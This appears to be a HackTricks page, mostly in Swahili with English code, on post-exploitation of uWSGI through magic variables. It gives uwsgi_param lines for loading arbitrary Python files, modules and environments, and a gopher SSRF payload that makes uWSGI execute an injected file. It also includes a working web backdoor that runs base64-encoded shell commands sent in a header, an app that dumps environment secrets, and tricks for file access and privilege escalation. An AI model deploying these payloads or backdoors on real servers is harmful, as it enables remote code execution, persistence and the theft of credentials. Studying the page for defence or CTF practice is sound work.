 # WSGI Post-Exploitation Tricks

{{#include ../../banners/hacktricks-training.md}}

## Muhtasari wa WSGI

Web Server Gateway Interface (WSGI) ni spesifikesheni inayoelezea jinsi web server inavyowasiliana na web applications, na jinsi web applications zinaweza kuunganishwa pamoja ili kuchakata request moja. uWSGI ni mojawapo ya servers maarufu za WSGI, mara nyingi ikitumika kuhudumia Python web applications.

## uWSGI Magic Variables Exploitation

uWSGI hutoa vigezo maalum vinavyoitwa "magic variables" vinavyoweza kutumika kusanidi mienendo ya server kwa njia ya dynamic. Vigezo hivi vinaweza kuwekwa kupitia HTTP headers na vinaweza kusababisha udhaifu mkubwa wa usalama ikiwa havitathminiwa ipasavyo.

### Key Exploitable Variables

#### `UWSGI_FILE` - Utekelezaji wa faili yoyote
```
uwsgi_param UWSGI_FILE /path/to/python/file.py;
```
Kigezo hiki kinaruhusu kupakia na kutekeleza faili zozote za Python kama maombi ya WSGI. Iwapo mshambulizi anaweza kudhibiti kigezo hiki, anaweza kufanikisha Remote Code Execution (RCE).

#### `UWSGI_SCRIPT` - Kupakia skripti
```
uwsgi_param UWSGI_SCRIPT module.path:callable;
uwsgi_param SCRIPT_NAME /endpoint;
```
Inapakia script iliyobainishwa kama programu mpya. Ikiunganishwa na file upload au write capabilities, hii inaweza kusababisha RCE.

#### `UWSGI_MODULE` and `UWSGI_CALLABLE` - Dynamic Module Loading
```
uwsgi_param UWSGI_MODULE malicious.module;
uwsgi_param UWSGI_CALLABLE evil_function;
uwsgi_param SCRIPT_NAME /backdoor;
```
Vigezo hivi vinaruhusu kupakia modules za Python zozote na kuita functions maalum ndani yao.

#### `UWSGI_SETENV` - Udhibiti wa vigezo vya mazingira
```
uwsgi_param UWSGI_SETENV DJANGO_SETTINGS_MODULE=malicious.settings;
```
Inaweza kutumika kubadilisha environment variables, na hivyo kuathiri application behavior au kupakia malicious configuration.

#### `UWSGI_PYHOME` - Python Environment Manipulation
```
uwsgi_param UWSGI_PYHOME /path/to/malicious/venv;
```
Hubadilisha mazingira ya virtual ya Python, na hivyo inaweza kupakia vifurushi hatarishi au mfasiri tofauti wa Python.

#### `UWSGI_CHDIR` - Directory Traversal
```
uwsgi_param UWSGI_CHDIR /etc/;
```
Inabadilisha saraka ya kazi kabla ya kuchakata maombi, jambo ambalo linaweza kutumika kwa mashambulizi ya path traversal.

## SSRF + Gopher kwa

### Njia ya Mashambulizi

Wakati uWSGI inapatikana kupitia SSRF (Server-Side Request Forgery), wadukuzi wanaweza kuingiliana na socket ya ndani ya uWSGI ili kutumia vigezo maalum (magic variables). Hii ni hatari hasa wakati:

1. Programu ina mianya ya SSRF
2. uWSGI inaendesha kwenye port/socket ya ndani
3. Programu haina kuthibitisha vizuri vigezo maalum (magic variables)

uWSGI inapatikana kutokana na SSRF kwa sababu faili ya config `uwsgi.ini` ina: `socket = 127.0.0.1:5000`, ikifanya ipatikane kutoka kwa web application kupitia SSRF.

### Mfano wa Utekelezaji

#### Hatua 1: Tengeneza Payload Hasidi
Kwanza, weka (inject) code ya Python ndani ya faili inayoweza kufikiwa na seva (kuandika faili ndani ya seva, extension ya faili haina umuhimu):
```python
# Payload injected into a JSON profile file
import os
os.system("/readflag > /app/profiles/result.json")
```
#### Hatua 2: Tengeneza uWSGI Protocol Request
Tumia Gopher protocol kutuma raw uWSGI packets:
```
gopher://127.0.0.1:5000/_%00%D2%00%00%0F%00SERVER_PROTOCOL%08%00HTTP/1.1%0E%00REQUEST_METHOD%03%00GET%09%00PATH_INFO%01%00/%0B%00REQUEST_URI%01%00/%0C%00QUERY_STRING%00%00%0B%00SERVER_NAME%00%00%09%00HTTP_HOST%0E%00127.0.0.1%3A5000%0A%00UWSGI_FILE%1D%00/app/profiles/malicious.json%0B%00SCRIPT_NAME%10%00/malicious.json
```
Payload hii:
- Inaunganisha na uWSGI kwenye port 5000
- Inaweka `UWSGI_FILE` ili kuelekeza kwa faili yenye madhara
- Inalazimisha uWSGI kupakia na kutekeleza msimbo wa Python

### uWSGI Protocol Structure

Protocol ya uWSGI inatumia muundo wa binary ambapo:
- Variables zimeandikwa kwa format inayoweka urefu kabla ya string
- Kila variable ina: `[name_length][name][value_length][value]`
- Paketi huanza na header inayojumuisha jumla ya ukubwa

## Post-Exploitation Techniques

### 1. Persistent Backdoors

#### File-based Backdoor
```python
# backdoor.py
import subprocess
import base64

def application(environ, start_response):
cmd = environ.get('HTTP_X_CMD', '')
if cmd:
result = subprocess.run(base64.b64decode(cmd), shell=True, capture_output=True, text=True)
response = f"STDOUT: {result.stdout}\nSTDERR: {result.stderr}"
else:
response = "Backdoor active"

start_response('200 OK', [('Content-Type', 'text/plain')])
return [response.encode()]
```
Kisha tumia `UWSGI_FILE` ili kupakia backdoor hii:
```
uwsgi_param UWSGI_FILE /tmp/backdoor.py;
uwsgi_param SCRIPT_NAME /admin;
```
#### Udumu Kulingana na Mazingira
```
uwsgi_param UWSGI_SETENV PYTHONPATH=/tmp/malicious:/usr/lib/python3.8/site-packages;
```
### 2. Ufichaji wa Taarifa

#### Environment Variable Dumping
```python
# env_dump.py
import os
import json

def application(environ, start_response):
env_data = {
'os_environ': dict(os.environ),
'wsgi_environ': dict(environ)
}

start_response('200 OK', [('Content-Type', 'application/json')])
return [json.dumps(env_data, indent=2).encode()]
```
#### Ufikiaji wa Mfumo wa Faili
Tumia `UWSGI_CHDIR` pamoja na file serving ili kufikia faili nyeti:
```
uwsgi_param UWSGI_CHDIR /etc/;
uwsgi_param UWSGI_FILE /app/file_server.py;
```
### 3. Privilege Escalation

#### Socket Manipulation
Ikiwa uWSGI inaendesha kwa ruhusa zilizoinuliwa, washambuliaji wanaweza kubadilisha ruhusa za soketi:
```
uwsgi_param UWSGI_CHDIR /tmp;
uwsgi_param UWSGI_SETENV UWSGI_SOCKET_OWNER=www-data;
```
#### Kufunika Mipangilio
```python
# malicious_config.py
import os

# Override uWSGI configuration
os.environ['UWSGI_MASTER'] = '1'
os.environ['UWSGI_PROCESSES'] = '1'
os.environ['UWSGI_CHEAPER'] = '1'
```
## Marejeo

- [uWSGI Magic Variables Documentation](https://uwsgi-docs.readthedocs.io/en/latest/Vars.html)
- [IOI SaveData CTF Writeup](https://bugculture.io/writeups/web/ioi-savedata)
- [uWSGI Security Best Practices](https://uwsgi-docs.readthedocs.io/en/latest/Security.html)

{{#include ../../banners/hacktricks-training.md}}
